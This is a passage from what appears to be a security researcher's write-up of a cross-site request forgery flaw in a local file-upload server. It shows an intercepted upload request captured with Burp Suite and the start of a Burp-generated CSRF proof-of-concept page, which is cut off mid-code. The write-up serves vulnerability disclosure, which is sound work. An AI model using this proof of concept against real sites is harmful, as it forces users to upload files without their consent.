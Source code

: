 We can see that there is an uploading option available which isn't there if we don't use `--upload` flag while running the binary. I quickly uploaded a PNG and a couple of other files and they were all being uploaded to the directory from where the server was started.

I thought this might be vulnerable to cross-site request forgery. Any person could exploit CSRF and make a legit user upload a file without consent as it 
was a matter of sending just a single HTTP POST request without any security checks such as CSRF token or cookie-based authentication.


I ran **Burp Suite** to intercept the 'upload' POST request and the request is as follows.

```
POST / HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------49374226323914387693968136327
Content-Length: 295
Origin: http://localhost:8000
Connection: close
Referer: http://localhost:8000/
Upgrade-Insecure-Requests: 1

-----------------------------49374226323914387693968136327
Content-Disposition: form-data; name="files"; filename="testing-csrf.txt"
Content-Type: text/plain

Test File
-----------------------------49374226323914387693968136327--
```

> Burp Suite is a very famous web proxy tool which can be used for intercepting and analyzing live HTTP requests and even modify them based upon our needs. It offers many other utilities inside of it which makes it a great tool for web application hackers. It also has a web vulnerability scanner in-built and Burp Suite is developed by Portswigger. (For more info, visit [https://portswigger.net/burp](https://portswigger.net/burp))

Burp Suite has a great feature to generate a CSRF proof of concept that can be used to demonstrate the exploitation.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/localhost:8000\/", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------49374226323914387693968136327");
        xhr.withCredentials = true;
        var body = "-----------------------------49374226323914387693968136327\r\n" + 
          "Content-Disposition: form-data; name=\"files\"; filename=\"testing-csrf.txt\"\r\n" + 
          "Content-Type: text/plain\r\n" + 
          "\r\n" + 
          "Test File\r\n" + 
          "-----------------------------49374226323914387693968136327--\r\n";
        var aBody = new Uint8Array(body.length);
```